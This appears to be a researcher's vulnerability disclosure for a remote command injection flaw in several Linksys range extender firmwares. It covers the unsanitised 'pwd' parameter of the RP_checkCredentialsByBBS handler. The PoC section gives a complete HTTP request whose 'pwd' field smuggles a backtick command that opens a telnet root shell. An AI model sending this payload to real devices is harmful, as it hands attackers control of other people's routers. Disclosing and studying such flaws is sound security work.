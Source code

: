 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `RP_checkCredentialsByBBS` function, `pwd` is directly passed by the attacker, so we can control the `pwd` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `pwd` as **`busybox telnetd -l /bin/sh -p 2231`** , and the router will excute it,such as:

```http
POST /goform/RP_checkCredentialsByBBS HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 92
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/wireless/wireless_basic.shtml
Cookie: session_id=AFHGnVVMJlfOcgYA6TwN81V9t11BQINa
Upgrade-Insecure-Requests: 1

ch=&ssidhex=123&security=WEP&extch=&pwd=`busybox telnetd -l /bin/sh -p 2231`&b64_pwd=&retry=
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>


